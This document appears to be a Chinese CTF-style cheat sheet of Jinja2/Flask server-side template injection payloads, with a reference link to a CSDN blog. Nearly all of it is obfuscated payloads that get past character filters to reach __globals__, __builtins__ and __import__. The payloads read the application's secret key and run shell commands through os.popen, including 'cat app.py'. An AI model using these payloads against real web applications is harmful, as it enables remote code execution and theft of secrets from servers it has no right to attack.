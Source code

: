 ```

()|attr(request.args.a)|attr(request.args.b)[0]|attr(request.args.c)()

lipsum[(()|select|string)[24]~(()|select|string)[24]~dict(glo=aa,bals=dd)|join~(()|select|string)[24]~ (()|select|string)[24]][]  #lipsum.__globals__

读变量
lipsum[(()|select|string)[24]~(()|select|string)[24]~dict(glo=aa,bals=dd)|join~(()|select|string)[24]~ (()|select|string)[24]][(()|select|string)[24]~(()|select|string)[24]~dict(buil=aa,tins=dd)|join~(()|select|string)[24]~(()|select|string)[24]][(()|select|string)[24]~(()|select|string)[24]~dict(impo=aa,rt=dd)|join~(()|select|string)[24]~ (()|select|string)[24]](dict(a=aa,pp=bb)|join)[dict(ke=aa,y=bb)|join]


cat app.py
lipsum[(()|select|string)[24]~(()|select|string)[24]~dict(glo=aa,bals=dd)|join~(()|select|string)[24]~ (()|select|string)[24]][dict(o=aa,s=dd)|join][dict(po=aa,pen=dd)|join](dict(ca=aa,t=dd)|join~{}|center|last~dict(a=aa,pp=dd)|join~lipsum|float|string|min~dict(p=aa,y=dd)|join)[dict(re=aa,ad=dd)|join]()
```

```
lipsum|float|string|min # .
{}|center|last # 空格
(request|string)[15] # 根据返回值截取的/
```





参考链接：https://blog.csdn.net/qq_45521281/article/details/106252560
